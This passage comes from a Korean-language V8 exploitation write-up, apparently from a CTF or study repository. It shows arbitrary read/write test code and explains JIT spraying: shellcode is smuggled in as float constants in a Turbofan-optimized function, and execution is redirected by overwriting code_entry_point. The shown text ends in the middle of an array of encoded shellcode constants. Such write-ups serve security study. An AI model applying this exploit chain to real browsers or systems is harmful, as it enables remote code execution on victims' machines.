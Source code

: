 ```js
// aar test
let tmp_obj_addr = v8_base + addrof(tmp_obj);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/662f02ef-372a-4535-8a88-43797bf45e83)

![image](https://github.com/user-attachments/assets/6fed5392-d57e-4322-9fe2-027bca14f0be)

```js
// aaw test
aarw(tmp_obj_addr - 1n, 0x4141414141414141n);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/30a6d0f1-f677-45ed-9ca6-92a6384162ec)

![image](https://github.com/user-attachments/assets/abb24dc2-d465-4713-ab87-1c8db8b5f3e6)

### Execute shellcode - JIT spraying

```js
function jit() {
    return [1.1, 2.2, 3.3, 4.4, 5.5];
}
for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // optimization

% DebugPrint(jit);
```

Double number들로 구성된 array를 반환하는 함수 `jit()`를 Turbofan으로 최적화하면, 상수들이 최적화된 코드에 raw number로 삽입된다.

![image](https://github.com/user-attachments/assets/c77d805b-4790-4221-b703-d995596da150)

![image](https://github.com/user-attachments/assets/c55e3381-13d2-40b2-bd26-14b47a9de336)

![image](https://github.com/user-attachments/assets/d10a89c5-1d79-4c01-ad04-47fce2d96c8c)

![image](https://github.com/user-attachments/assets/a6dea642-bb90-43e3-adc7-643b78392e05)

이를 이용하여 executable memory에 최대 8바이트의 shellcode를 쓸 수 있고, AAW를 이용하여 `code_entry_point`를 shellcode의 주소로 조작하면 optimize된 함수를 호출했을 때 shellcode가 실행된다. 실행하고자 하는 shellcode가 8바이트보다 길 경우, 마지막 2바이트에 `jmp` instruction을 삽입하여 다음 shellcode로 점프하도록 하면 여러 개의 짧은 shellcode들로 chain을 구성할 수 있다.

[shellcode.py](./shellcode.py)

![image](https://github.com/user-attachments/assets/c1a875c5-ff8f-48f5-a0aa-9e473734903a)

```js
function jit() {
    return [
        1.9711828996832522e-246, // itof(0xceb909090c03148n)
        1.971112871410787e-246, // itof(0xceb9050636cb866n)
        1.9711314215434657e-246, // itof(0xceb906163782fb8n)
        1.97118242283721e-246, // itof(0xceb909020e0c148n)
        1.9616425752617766e-246, // itof(0xceb6e69622f0548n)
        1.9711832695973408e-246, // itof(0xceb9090e7894850n)
        1.971182900582351e-246, // itof(0xceb909090f63148n)
        1.9711828996832522e-246, // itof(0xceb909090c03148n)
        1.971112653196158e-246, // itof(0xceb9050303ab866n)
        1.9710920957760286e-246, // itof(0xceb903d59414cb8n)
        1.97118242283721e-246, // itof(0xceb909020e0c148n)
        1.9532382542574046e-246, // itof(0xceb505349440548n)
        1.971183239760578e-246, // itof(0xceb9090e0894850n)
        1.9711128050518315e-246, // itof(0xceb905053db3148n)
```